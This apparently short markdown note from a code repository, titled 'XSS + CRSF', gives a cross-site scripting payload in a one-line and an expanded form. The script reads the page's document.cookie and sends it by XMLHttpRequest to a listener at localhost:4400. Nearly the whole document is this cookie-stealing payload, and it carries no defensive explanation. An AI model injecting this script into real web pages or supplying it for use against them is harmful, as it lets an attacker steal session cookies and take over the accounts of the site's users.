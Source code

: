 # XSS + CRSF

## One-liner version
```html
<script>var xhr = (new window.XMLHttpRequest()); xhr.open("GET", "http://localhost:4400?cookie=" + document.cookie ); xhr.send();</script>
```

## Expanded version
```html
<script>
	var xhr = (new window.XMLHttpRequest()); 
	xhr.open("GET", "http://localhost:4400?cookie=" + document.cookie ); 
	xhr.send();
</script>
```
